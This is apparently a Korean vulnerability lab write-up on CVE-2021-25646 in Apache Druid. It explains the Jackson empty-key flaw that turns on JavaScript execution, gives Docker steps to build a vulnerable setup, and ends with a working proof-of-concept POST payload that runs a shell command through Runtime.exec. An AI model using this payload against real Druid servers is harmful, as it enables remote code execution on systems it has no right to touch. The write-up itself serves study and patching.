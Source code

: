 # Apache Druid 취약점 (CVE-2021-25646)
### **개요**
  Apache Druid는 대량의 이벤트 데이터를 빠르게 얻고 데이터에 대한 짧은 대기 시간 쿼리를 제공하도록 Java로 작성된 열 지향 오픈 소스 분산 데이터 저장소이다. Apache Druid에는 사용자가 제공 한 JavaScript를 실행하는 코드가 포함되어 있으며 다양한 유형의 요청에 포함된다. 이 기능은 신뢰도가 높은 환경에서 사용하기 위한 기능이기 때문에, 기본적으로 비활성화 상태이다. 하지만, Druid 0.20.0 이전 버전에서는 서버 구성에 관계없이 사용자가 제공한 JavaScript 코드를 실행할 수 있는 취약점(CVE-2021-25646)이 발견되었다. 해커는 해당 취약점을 악용해 Druid 서버 프로세스의 권한으로 타겟 시스템에서 원격 코드실행을 할 수 있다.<br><br><br>
  
### **분석 내용 (Summary)**
Apache Druid는 기본적으로 JavaScript 함수의 실행을 지원하지 않는다. 이 취약점의 근본적인 문제는 Apache Druid의 Jackson이 JavaScript 타입 JSON 데이터 구문을 파싱하는 과정에서 JavaScript 실행 설정을 활성화함으로서 원격 코드 실행 취약점이 발생하게 된다. 

JavaScriptDimFilter의 생성자는 @JsonCreator를 사용한다. 즉, JavaScriptDimFilter 클래스가 역직렬화 될 때, Jackson은 이 생성 메서드를 호출하고, dimesion, function, extractFn, filterTuning은 Jackson이 JavaScriptDimFilter로 역 직렬화 및 구문 분석 할 때, CreatorProterty 유형으로 캡슐화되며 @JsonProperty로 표시되지 않은 구성 매개 변수의 경우 ""라는 CreatorProperty가 생성된다.
Jackson이 구문 분석 시에 name이 ""인 경우, config에 바인딩이 된다. 이를 통해 JavaScript를 사용하도록 설정할 수 있다.

_deserializePropertyBased 메서드를 사용하여 구문이 분석된 Json 문자열의 "key name"은 현재 구문이 분석된 상태에서 해당 Creator Property를 찾는데 사용된다. Creator Property를 찾는 기능은 findCreatorProperty 메서드의 _propertyLookup HashMap에서 해당 "key name"에 대한 속성을 찾을 수 있다. _propertyLookup에서 JavaScriptConfig의 키는 @JsonProperty로 속성이 수정되지 않기 때문에, ""으로 Creator Property가 생성되고 Jacson이 입력한 키를 설정한다. 그리고 사용자는 ""값에 속성을 할당하게 된다. 
그래서 공격자가 Json 문자열에 ""로 키를 제공하면 findCreatorProperty가 해당 키와 일치하고 JavaScriptConfig에 해당하는 Creator Property를 얻는다. 이를 enabled = true로 설정하여 Apache Druid의 JavaScript기능을 활성화할 수 있다.  


<br><br><br>

# 취약 환경 구축
* 취약 버전 : 0.20.0 이하
* 해결 버전 : 0.20.1 이상<br> <br> 
## **환경 구축 ( docker )**
1. https://github.com/apache/druid 를 Clone. <br><br>
2. `/druid/docker_druid/druid/distribution/docker` 경로에서 docker-compose.yml 파일을 다음과 같이 수정한다. 
   * coordinator: & broker: & historical: & middlemanager: & router: 명시한 4개의 각 서비스에 대한 apaapache/druid 버전을 취약한 버전으로 수정. 

   * ex) apache druid 0.19.0 버전을 사용할 경우 아래와 같이 수정. 
```{docker}
    coordinator:
        image: apache/druid:0.19.0
        container_name: coordinator
        volumes:
          - ./storage:/opt/data
          - coordinator_var:/opt/druid/var
        depends_on:
          - zookeeper
          - postgres
        ports:
          - "8081:8081"
        command:
          - coordinator
        env_file:
          - environment
```

3. `docker-compose up` 명령 실행 <br><br>
4. 127.0.0.1:8888 접근 가능 여부 확인 <br><br>


<br>

## **취약 환경 설정 ( LoadData )**
1. 좌측 상단 Load data - Start new spec - Local disk 클릭 <br><br>
2. Connect data 이후 아래와 같이 설정을 삽입 후 Apply - Next.
   * Base directory : `quickstart/tutorial/`
   * File filter : `wikiticker-2015-09-12-sampled.json.gz` <br><br>
3. Add column filter가 보일 때까지 계속해서 Next <br><br>
4. Add column filter 클릭하여 다음과 같이 삽입 후 Apply - Next. 
   * Dimension : `cityName`
   * Value : `Auburn` <br><br>
<br><br><br>

# 취약점 테스트
### Payload : https://github.com/Vulnmachines/Apache-Druid-CVE-2021-25646/blob/main/Payload.txt

```
/tmp/hacked!.txt 파일 생성 PoC

### URL
POST 127.0.0.1:8888/druid/indexer/v1/sampler?for=filter

### Payload
{"type":"index","spec":{"ioConfig":{"type":"index","firehose":{"type":"local","baseDir":"quickstart/tutorial/","filter":"wikiticker-2015-09-12-sampled.json.gz"}},"dataSchema":{"dataSource":"sample","parser":{"type":"string","parseSpec":{"format":"json","timestampSpec":{"column":"time","format":"iso"},"dimensionsSpec":{}}},"transformSpec":{"transforms":[],"filter":{"type":"javascript", "function":"function(value){return java.lang.Runtime.getRuntime().exec('touch /tmp/hacked!.txt')}", "dimension":"added", "":{ "enabled":"true" } }}}},"samplerConfig":{"numRows":500,"cacheKey":"73a90acaae2b1ccc0e969709665bc62f"}}
```
<br>

## **패킷 전송**


<br><br>

## **결과 확인**


<br><br><br>
# 참고 자료 
* https://www.77169.net/html/275825.html
* https://mp.weixin.qq.com/s/McAoLfyf_tgFIfGTAoRCiw
* https://mp.weixin.qq.com/s/m7WLwJX-566WQ29Tuv7dtg
* https://securitylab.github.com/research/rhino-in-the-room/
* https://xz.aliyun.com/t/9229?page=1
* https://hell38vn.wordpress.com/2021/04/01/phan-tich-cve-2021-25646-code-execution-on-apache-druid/
  
